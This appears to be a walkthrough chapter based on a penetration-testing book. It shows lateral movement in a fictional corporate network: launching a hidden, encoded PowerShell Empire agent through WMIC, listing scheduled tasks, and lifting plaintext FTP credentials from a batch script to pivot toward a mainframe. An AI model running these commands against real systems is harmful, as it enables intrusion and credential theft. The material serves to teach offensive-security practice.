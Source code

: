 # Mainframe Exploitation via FTP Bouncing

*Note: this section continues from the previous cookbook on pass-the-hash technique (utilizing Empire) and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 92)*

With the domain admin account now in hand, we use a familiar tactic to deploy a new Empire agent on the GBSales network. Our target is the FTP server SL0210 (10.30.30.210), which previously handled sales data from GBShop. We exploit our domain admin privileges to execute a PowerShell command via WMI, thus establishing our agent:

```
(Empire: DCshop) > shell wmic /node:SL0210.GBSALES.CORP process call create "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAcwB[...]"
```

Note: ensure you rename this Empire agent and switch to it to manage the session effectively.

Once connected, we navigate to the default FTP directory on the server:

```
(Empire: SalesFTP) > shell dir C:\inetpub\ftproot\
```

The folder is empty, which indicates the files are being transferred elsewhere. To trace them, we list all scheduled tasks on the machine:

```
(Empire: SalesFTP) > shell schtasks /Query /FO LIST /V
```

Note: schtasks /Query /FO LIST /V lists all scheduled tasks in a verbose format.

The output shows:

```
Job started: Debug32_ks12qv
Folder: \
HostName: SL0210
TaskName: \centralized_upload
Status: Ready
Author: GBSALES\administrator
Task To Run: "C:\Program Files\Scripts\centralized_upload.bat"
Comment: centralize all uploads to the big Iron
Scheduled Task State: Enabled
```

Upon examining the centralized_upload.bat script, we discover:

```
SET Server=10.30.30.41
SET UserName=FTPSRV
SET Password=PASS01
```

The script’s final delete command directs us to a new IP address: 10.30.30.41, indicating another target within the GBSALES network. FTP credentials are FTPSRV and PASS01.
